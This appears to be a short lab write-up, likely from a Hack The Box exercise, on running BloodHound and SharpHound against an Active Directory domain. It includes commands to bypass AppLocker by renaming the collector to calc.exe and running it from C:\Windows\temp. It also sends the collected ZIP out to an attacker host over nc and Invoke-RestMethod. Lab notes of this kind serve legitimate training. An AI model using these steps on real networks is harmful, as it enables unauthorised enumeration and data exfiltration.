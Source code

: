 # BloodHound 101

> Fun Fact: The German for Bloodhound is *Bluthund*

```bash
# In one TMUX pane
docker pull neo4j
docker run --name ne04j -d -p 7473:7473 -p 7474:7474 -p 7687:7687 -v $HOME/neo4j/data:/data -v $HOME/neo4j/logs:/logs -v $HOME/neo4j/import:/var/lib/neo4j/import -v $HOME/neo4j/plugins:/plugins --env 
NEO4J_AUTH=neo4j/test neo4j:latest

# In another TMUX pane
sudo ./BloodHound --no-sandbox 
```

Find a writeable directory on the box and use a `python` web server to get the files onto the target. (Use the SharpHound.exe)

Try to run it and get knocked back!

```bash
.\SharpHound.exe                                                                                     
Program 'SharpHound.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\SharpHound.exe                                                                                   
+ ~~~~~~~~~~~~~~~~.                                                                                  
At line:1 char:1                                                                                     
+ .\SharpHound.exe                                                                                                                                                                                         
+ ~~~~~~~~~~~~~~~~                                
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed  
```

This is an `AppLocker` issue. To get around this we need to run the binary from a "white listed" directory on the target. We can get a list of these directories from [this link](https://github.com/api0cradle/UltimateAppLockerByPassList)

> Just to be safe I also renamed the binary to `calc.exe` no idea if that is going to make a difference but it makes me feel better

```bash
mv SharpHound.exe calc.exe
copy calc.exe C:\Windows\temp\calc.exe
C:\Windows\temp\calc.exe
------------------------------------------------                                                     
Initializing SharpHound at 7:26 AM on 12/12/2020
------------------------------------------------                                                     
                                                  
Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
                                                  
[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL   
[+] Cache File not Found: 0 Objects in cache   
                                                                                                     
[+] Pre-populating Domain Controller SIDS      
Status: 0 objects finished (+0) -- Using 19 MB RAM                                                   
Status: 61 objects finished (+61 ì)/s -- Using 27 MB RAM
Enumeration finished in 00:00:00.4003317
Compressing data to .\20201212072610_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 7:26 AM on 12/12/2020! Happy Graphing!
```

> 2 hours later...

Finally got the ZIP file off the box and onto our machine:

```bash
# On our Kali box
nc -lvnp 1337 > bloodhound_results.zip
# On the target
Invoke-RestMethod -Uri http://10.10.14.3:1337/ -Method Post -InFile bloodhound.zip
```

Only way to tell if it's finished is to compare the size of the files on the Kali box and the host.
